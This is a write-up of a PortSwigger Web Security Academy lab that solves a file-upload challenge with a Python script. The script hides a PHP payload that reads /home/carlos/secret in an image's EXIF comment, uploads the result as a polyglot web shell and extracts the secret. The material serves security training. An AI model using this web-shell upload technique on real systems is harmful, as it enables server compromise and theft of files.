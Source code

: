 ## Web security academy
### Lab Title: Remote code execution via polyglot web shell upload
### Lab: 06

## My Points:

1. **Introduction:** <br>[Portswigger's web security academy](https://portswigger.net/) is a platform that provides practice labs for finding web application vulnerabilities. In this Lab-06 upload a (.php) web shell, then get the content of the user carlos.

2. **Technique:**
     - **PIL and EXIF:** These libraries are used to create an image and then add php code in the comment tag, for details check the references.
     - **Notes:** 
          - Check the folder write permission, the code creates files in the same directory in which lab-06.php file exists.
          - Burp Suite is used to check the requests and responses because it's good to check what's going on in the request/response. To run the code on windows or linux, Python version 3 should be installed in the system and also check that the import libraries are also properly installed e.g. request, PIL, EXIF. Burp suite must be started to run the code..
     <br>
     
     > Windows: 
     ```
     python lab-06.py
     ```
     
     > Linux:
     ```
     python3 lab-06.py or python lab-06.py ( if version 3 is default version )
     ```


3. **Code:**
     - **Define main variables:**
     
        ```    
        # Burp Suite proxy
        proxy_urls = {
          'http': 'http://127.0.0.1:8080',
          'https': 'http://127.0.0.1:8080',
        }
        image_file_name = 'hh.jpg'
          php_file_name = 'kk.php'
          form_upload_field = 'avatar'
          delete_files = False # if True: Delete the temp image and php files
          php_code = '<?php echo "K::" . file_get_contents("/home/carlos/secret") . "::K";?>'
       
        ```
        <br>
        
     - **User inputs:** When the program executes, it takes Lab URL, username and password from the user.

        ```        
        # User input: Lab URL, username, and password
         k_url = input("Enter Lab URL: ").strip().rstrip("/")
         username = input("Enter Account Username: ").strip()
         password = input("Enter Account Password: ").strip()

         if (not (k_url and username and password)):
             print()
             print("[-] Error! Input variable(s) missing.")
             print("[-] Lab URL: https://a...........c2.web-security-academy.net")
             print("[-] Username")
             print("[-] Password")
             sys.exit()
         else:
             print("[*] Solving....")
             main()
        ```     
     
          - Enter URL: Get lab URL from your browser address bar and paste it.

          - Enter account credentials.
    <br>

     - **Main Functions:**
          1. create_files():The function creates image files, and adds php code in the image comment tag, then creates php file and writes an image in the php file. ( delete_files ) this is a variable if you want to delete the created files from your local disk.
          2. login_req(): Sends the login request.
          3. k_upload_file(): The function uploads the created php file. 
          4.  If the file is uploaded then the program sends a GET request to **/files/avatars/kk.php** and gets the file content.
          5. K:: the secret key ::K, a regular expression is used to extract the secret from the response.  
          6. **Secret:** Copy the secret form command line and submit.
     <br>   


## References:
   - [https://portswigger.net/web-security/dashboard](https://portswigger.net/web-security/dashboard)
   - [https://pypi.org/project/Pillow/](https://pypi.org/project/Pillow/)  
   - [https://pypi.org/project/exif/](https://pypi.org/project/exif/)

